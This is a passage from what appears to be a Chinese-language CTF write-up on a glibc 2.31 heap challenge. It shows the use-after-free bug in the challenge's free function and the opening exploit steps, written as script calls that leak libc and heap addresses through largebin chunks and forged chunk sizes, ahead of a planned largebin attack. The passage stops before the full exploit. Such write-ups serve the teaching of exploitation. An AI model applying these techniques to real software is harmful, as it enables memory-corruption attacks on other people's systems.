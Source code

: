 其中add功能只能add largebin chunk

free功能里有UAF漏洞

```plain
if ( index <= 0x20 && pwn_ptr[index] )
      free(pwn_ptr[index]);
```

并且开启了沙箱

### 攻击流程

largebin chunk的优点就是泄露libc较为简单

free掉就可以泄露了，要注意防止合并

```plain
add(0,0x500,'aaaa')
add(1,0x500,'aaaa')
#chunk0+chunk1 = heapbase --> heapbase+0x1000
delete(0)
show(0)
```

[![](assets/1700701212-b7b106092113cdda671af9af43507a1e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121159-480c98fc-88ed-1.png)

然后由于apple需要利用largebin attack，所以还要泄露heap\_base（选 2.31不用考虑safe-linking的12异或，图个方便）

先把chunk1 free掉，让两个chunk都合并到topchunk中，然后再add 3个chunk

```plain
delete(1)
add(2,0x420,'bbbb')
add(3,0x420,'bbbb')
add(4,0x420,'bbbb')
```

利用edit after free 修改size让chunk free之后进入到tcachebin中，show出heap地址

```plain
edit(0,'\x00'*0x420+p64(0)+p64(0x41))
edit(1,'\x00'*0x340+p64(0)+p64(0x41))

delete(3)
delete(4)
show(4)
```
